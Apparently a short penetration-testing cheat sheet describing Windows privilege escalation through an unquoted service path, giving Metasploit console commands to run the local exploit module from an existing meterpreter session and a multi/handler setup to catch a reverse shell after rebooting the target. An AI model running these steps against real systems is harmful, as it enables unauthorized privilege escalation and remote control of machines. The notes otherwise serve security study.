





metasploit
WARNING The name of this exploit is been changed from:
“exploits/windows/local/trusted_service_path” → “exploits/windows/local/unquoted_service_path”
To use this module firs we need an user shell
meterpreter > background
msf > use exploits/windows/local/unquoted_service_path
msf exploit(windows/local/unquoted_service_path) > sessions
msf exploit(windows/local/unquoted_service_path) > set SESSION [id]
msf exploit(windows/local/unquoted_service_path) > run
If
unable to restart the service:
Check if the service start at every boot of the machine we need to try to reboot the machine so that our malicious executable get executed
But first we need to set up an Handler that can catch the reverse shell at the reboot the machine
Set up the handler with the same settings set for the exploit module windows/local/unquoted_service_path
msf> use exploit/multi/handler
msf> set payload ....
msf> set lport ...
msf> set lhost ...
msf> run -j
Reboot target
